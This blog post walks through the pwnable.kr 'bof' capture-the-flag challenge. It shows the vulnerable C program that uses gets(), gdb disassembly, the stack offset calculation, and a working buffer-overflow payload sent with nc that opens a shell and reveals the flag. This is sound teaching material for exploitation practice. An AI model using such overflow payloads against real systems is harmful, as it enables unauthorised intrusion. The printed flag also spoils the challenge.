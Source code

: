```yaml
---
layout:     post
title:      "Pwnable.kr - bof"
date:       2017-11-25 8:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Pwnable'
---
```


Another challenge from [pwnable.kr](http://pwnable.kr "pwnable.kr") will show us how to perform a simple buffer overflow attack.

{% highlight text %}
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?
{% endhighlight %}

This time we're going to download the source code and the binary from the webpage. After that we're ready to analyze whatever this challenge brings to us.

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
{% endhighlight %}

Firstly, we can see that this application is vulnerable to overflow, since `gets()` function won't cut the characters after the buffer. Let's see man pages.

{% highlight text %}
Never use gets().  Because it is impossible to tell without knowing the
data  in  advance  how  many  characters  gets() will read, and because
gets() will continue to store characters past the end of the buffer, it
is  extremely  dangerous  to  use.   It has been used to break computer
security.  Use fgets() instead.
{% endhighlight %}

Since the best way to execute `/bin/sh` is to make the the comparision ***true***, we will have to overflow the buffer, and change the value of the `key` parameter. Game plan is to find out the address of the `key`, and then the address of
`overflowme`. This will allow us to calculate the offset between those 2 addresses, resulting in the number of trash data that has to be put into the buffer.

Let's fire up ***gdb***, and disassemble `main()` function.

{% highlight bash %}
w3ndige@main ~ % gdb ./bof

(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   %ebp
   0x0000068b <+1>:	mov    %esp,%ebp
   0x0000068d <+3>:	and    $0xfffffff0,%esp
   0x00000690 <+6>:	sub    $0x10,%esp
   0x00000693 <+9>:	movl   $0xdeadbeef,(%esp)
   0x0000069a <+16>:	call   0x62c <func>
   0x0000069f <+21>:	mov    $0x0,%eax
   0x000006a4 <+26>:	leave
   0x000006a5 <+27>:	ret
End of assembler dump.
{% endhighlight %}

Here we can see that at `main+9` the ***0xdeadbeef*** is moved into the ***esp***. In order to find the address of this variable we will have to set up breakpoint at `main+16`, and view the content of ***stack pointer***.

{% highlight bash %}
(gdb) break *main+16
Breakpoint 1 at 0x69a
(gdb) run
Starting program: /home/w3ndige/programming/pwnable.kr/bof

Breakpoint 1, 0x5655569a in main ()
(gdb) x/x $esp
0xffffd180:	0xdeadbeef
{% endhighlight %}

Great, we have it! Now we have to find the address of `overflowme` buffer, which lays in the `func` function. Let's disassemble it.

{% highlight bash %}
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave
   0x00000689 <+93>:	ret
End of assembler dump.
{% endhighlight %}

Since we know that local variables are on the negative size of ***ebp*** ([read more](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html "read more")), we can guess that `ebp-0x2c` is the address of `overflowme` variable. Let's set another breakpoint at `gets` and find out if it's true.

{% highlight bash %}
(gdb) break gets
Breakpoint 2 at 0xf7e3b915
(gdb) c
Continuing.
overflow me :

Breakpoint 2, 0xf7e3b915 in gets () from /usr/lib32/libc.so.6
(gdb) next
Single stepping until exit from function gets,
which has no line number information.
helloworld
0x56555654 in func ()
(gdb) x/1s $ebp -0x2c
0xffffd14c:	"helloworld"
{% endhighlight %}

Now we're ready to calculate the offset between those two addresses.

{% highlight python %}
>>> 0xffffd180 - 0xffffd14c
52
{% endhighlight %}

Ready to exploit?

{% highlight bash %}
w3ndige@main ~ % (python2 -c "print 52*'A'+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
whoami
bof
ls -la
total 25060
drwxr-x---  3 root bof      4096 Oct 23  2016 .
drwxr-xr-x 80 root root     4096 Jan 11  2017 ..
d---------  2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---  1 root bof      7348 Sep 12  2016 bof
-rw-r--r--  1 root root      308 Oct 23  2016 bof.c
-r--r-----  1 root bof        32 Jun 11  2014 flag
-rw-------  1 root root 25626087 Nov 23 11:33 log
-rw-r--r--  1 root root        0 Oct 23  2016 log2
-rwx------  1 root root      760 Sep 10  2014 super.pl
cat flag
daddy, I just pwned a buFFer :)
{% endhighlight %}

By printing 52 ***A*** letters and the number used in comparision (stored in ***little endian format***), we were able to exploit this application.
